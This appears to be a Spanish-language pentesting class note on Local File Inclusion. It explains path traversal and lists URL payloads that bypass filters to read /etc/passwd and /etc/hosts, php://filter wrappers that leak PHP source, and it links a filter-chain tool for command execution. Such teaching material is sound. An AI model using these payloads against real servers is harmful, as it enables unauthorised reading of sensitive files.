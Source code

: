 # Local File Incrusion (LFI)

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

Ejemplo de LFI:

<pre><code>http://IP?filename=/etc/host 

?filename=../../../../../../etc/hosts 
// sanetizado con filtro de busqueda en la ruta /var/www/html

?filename?....//....//....//....//....//etc/hosts 
// en caso de que ../ sea remplazada por un caracter vacio

?filename?../../../../../etc//./hosts 
// en caso de que este filtrado por la ruta ej(/etc/hosts, /etc/passwd) se ponen dos barras // o /./ y sigue funcionando
<strong>
</strong><strong>?filename?../../../../../etc/passwd%00 
</strong><strong>//para versiones de php antiguas
</strong></code></pre>

### Uso de filtro/wrappers

#### php://filter

```
// Convierte el contenido en base64
php://filter/convert.base64-encode/resource=secret.php

// Leer contenido en Base64
echo -n "PD9waHAKCS8vTm8gZGViZXJpYXMgcG9kZXIgdmVybWUgZGFkbyBxdWUgZXN0ZSBjb2RpZ28gZGViZXJpYSBkZSBzZXIgaW50ZXJwcmV0YWRvCgllY2hvICJIb2xhIHF1ZSB0YWwiOwo/Pgo=" | base64 -d

// Convierte el contenido en cifrado cesar//rotacion de 13 posiciones en las letras del abecedario
php://filter/read=string.rot13/resource=secret.php

// Leer el contenido en cifrado cesar
cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```

#### php:input

<div align="left">

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

</div>

#### data://&#x20;

Encodeamos en base64

<div align="left">

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

</div>

agregamos el comando seguido de data://text/plain,base64,

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

* **PHP Filter Chain Generator**: [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
